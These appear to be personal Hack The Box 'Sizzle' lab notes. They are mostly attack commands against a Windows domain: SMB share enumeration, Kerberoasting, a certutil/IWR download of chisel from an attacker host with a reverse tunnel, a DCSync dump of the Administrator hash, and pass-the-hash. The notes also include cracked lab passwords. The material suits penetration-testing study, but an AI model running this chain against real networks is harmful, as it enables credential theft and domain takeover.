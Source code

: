 ### No empty lines
https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#smb---tcp-445

```bash
cat * | xxd | grep -v "0000 0000 0000 0000 0000 0000 0000 0000"
```

### Cacls on mount
```bash
smbcacls -N '//10.129.230.198/Department Shares' Users

# mount it
sudo mount -t cifs //10.129.230.198/Department\ Shares /mnt

for i in $(ls); do echo $i; smbcacls -N '//10.129.230.198/Department Shares' $i; done
```

```bash
❯ smbcacls -N '//10.129.230.198/Department Shares' Users/Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL # <--- write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or shells
```

### //certsrv/ (Status: 401)
```bash
gobuster -k -u https://10.10.10.103 -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -t 20 -s 200,204,301,302,307,403,401
```

### SMB Share – SCF File Attacks
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

AMANDA:Ashare1972

### Sign CSR for winrm
##### One way..
```bash
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```
##### ..or the other
https://github.com/A1vinSmith/OSCP-PWK/wiki/Crack-Hash
```bash
openssl genrsa -aes256 -out enox.key 2048
openssl req -new -key enox.key -out enox.csr

evil-winrm -i 10.129.230.198 -S -c enox.cer -k enox.key
```

### Blocked
`certutil -urlcache -f http://10.10.16.9/chisel chisel`

### Bypass AppBlocker
```bash
IWR http://10.10.16.9/chisel -OutFile chisel.exe
chisel server -p 8008 --reverse
.\chisel.exe client 10.10.16.9:8008 R:88:127.0.0.1:88 R:389:localhost:389
```

### Kerberoasting
https://github.com/A1vinSmith/OSCP-PWK/blob/master/HackTheBox/Windows/Active.md

##### domain not right
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py htb/amanda:Ashare1972 -request -dc-ip 10.129.230.198
```

##### htb.local
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py htb.local/amanda:Ashare1972 -request -dc-ip 10.129.230.198
```
##### Sign csr for mrlky again
Football#7
```bash
openssl req -newkey rsa:2048 -nodes -keyout mrlky.key -out mrlky.csr
```
user.txt get

### Root
```bash
❯ impacket-secretsdump -just-dc mrlky:Football#7@10.129.230.198

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
```

##### check that hash using crackmapexec
`crackmapexec 10.129.230.198 -u administrator -H f6b7160bfc91823792e0ac3a162c9267`

##### done
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 Administrator@10.129.230.198
```